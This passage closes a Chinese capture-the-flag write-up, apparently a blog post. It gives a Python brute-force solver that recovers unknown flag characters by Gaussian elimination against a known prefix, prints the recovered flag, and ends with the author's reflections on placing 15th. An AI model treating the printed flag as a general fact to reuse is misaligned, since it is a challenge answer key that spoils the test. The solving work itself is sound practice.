minValue=0x0fffffff
groundTruth="y0u_are_a_"
for a in range(ord('l'),ord('z')):
    for b in range(ord('l'),ord('z')):
        for c in range(ord('a'),ord('h')):
            for d in range(ord('l'),ord('w')):
                array=np.array(enc(a,b,c,d))
                R1=array
                for i in range(18):
                    R1=RowScale(R1,i,1/R1[i][i])
                    #print(R1[i])
                    for j in range(18):
                        if i==j:
                            continue
                        R1=RowAdd(R1,i,j,-R1[j][i])
                #print(R1)
                tmpsum=Decimal(0)
                for i in range(len(groundTruth)):
                    tmpsum+=Decimal.__abs__(R1[i][-1]-Decimal(ord(groundTruth[i])))
                print(chr(a),chr(b),chr(c),chr(d),tmpsum)
                if(tmpsum<minValue):
                    minValue=tmpsum
                    minSave=[a,b,c,d]
~~~
同理，再把这四个变量当已知值，去反推系数过大的变量即可。

    flag{y0u_are_a_good_guesser}

 ## 总结

上届俺以为题变难了是最要命的，现在发现可能不是，题量变大了才是（。

好在最后保住了15名，感谢各位师傅不杀之恩.jpg

照例，等着看wp学到很多了！

也许下届再见！

~~虽然上次挂出来之后完全没用不过还是继续全网求俺ID这车的近期信息 近年应在牡丹江地区 感激不尽~~